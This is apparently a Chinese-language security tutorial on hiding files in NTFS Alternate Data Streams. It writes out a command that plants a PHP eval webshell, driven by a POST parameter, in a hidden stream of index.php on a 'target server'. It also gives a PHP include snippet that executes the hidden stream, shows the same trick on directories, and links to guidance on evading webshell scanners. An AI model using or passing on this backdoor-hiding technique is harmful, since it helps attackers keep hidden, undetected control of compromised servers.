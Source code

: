 `通过ADS流文件来隐藏文件`

什么是 `ADS流文件`
> NTFS交换数据流（Alternate Data Streams，简称ADS）是NTFS磁盘格式的一个特性。在NTFS文件系统下，每个文件都可以存在多个数据流，意思是除了主文件流之外还可以有许多非主文件流寄宿在主文件流中，这些利用NTFS数据流寄宿并隐藏在系统中的非主文件流我们称之为ADS流文件。虽然我们无法看到ADS流文件，但它们却是真实存在。

其实在文件上传处已经已经提到过一次
> 在 Window系统 中,如果文件名 + "::\$DATA" 会把 ::\$DATA 之后的数据当成文件流处理,不会检测后缀名，且保持 ::$DATA 之前的文件名，他的目的就是不检查后缀名.

不过这里要做的不是绕过后缀,而是使文件隐藏.

假设目标服务器上已经存在一个 `index.php`. 我们可以通过一下命令添加一个数据流文件
```
echo "<?php eval($_POST['a']);?>" >>index.php:1.txt
```
![20220620170639](http://particles.oss-cn-beijing.aliyuncs.com/img%5C856f91f7fc2b2022a9bb9ea2d0d830a4.png)
通过截图结果我们看到目标目录中并不存在一个叫 `index.php:1.txt` 的文件,但是通过 `dir /r` 命令可以看到确实是存在这个文件的. 那我们追加一句话木马在里面的吗? 我们用 `notepad index.php:1.txt`查看一下这个流文件.

![20220620171206](http://particles.oss-cn-beijing.aliyuncs.com/img%5C7879c87e60a74a86bfff5938848abd86.png)

这下你该相信了吧.
文件既然隐藏了,那要怎么利用呢? 答案是利用 `Php` 的文件包含函数. 举个例子:
```php
<?php
    echo "this is config.php";
    include("index.php:1.txt");
```

![20220620172102](http://particles.oss-cn-beijing.aliyuncs.com/img%5C7188e452e06cf24b07bea1c3802988d2.png)

![20220620172043](http://particles.oss-cn-beijing.aliyuncs.com/img%5Cb116d045ac23de302ff6075c6302f6a1.png)

可以看到这里代码成功执行.

文件流除了能够追加在文件中之外，还能追加到目录中.
```
echo "<?php phpinfo();?>" >>:1.txt
```
![20220620205810](http://particles.oss-cn-beijing.aliyuncs.com/img%5C12f3d8913d86ff928bdba71f960489f8.png)

但是这里我们不能通过 `.:1.txt` 直接获取文件内容
![20220620205841](http://particles.oss-cn-beijing.aliyuncs.com/img%5Ccc8a3ef35b40e830373bc1c2523fd859.png)

这里需要回到上级目录,利用 `上级目录名:1.txt` 才能访问到文件,比如我这里的上级目录名为 `demo`,则我需要返回到上一级目录,通过 `demo:1.txt` 来获取内容.

![20220620210009](http://particles.oss-cn-beijing.aliyuncs.com/img%5C203c2ae1a5e5cc7a1a6965719e3fa02f.png)

同样利用文件包含,也能够完成代码执行.

![20220620210457](http://particles.oss-cn-beijing.aliyuncs.com/img%5C32a7fa94fd3bbb175d48858245f77856.png)

关于如何绕过webshell查杀工具, 有兴趣的师傅可以看看这篇文章.[利用ADS隐藏webshell](https://blog.csdn.net/nzjdsds/article/details/81260524)
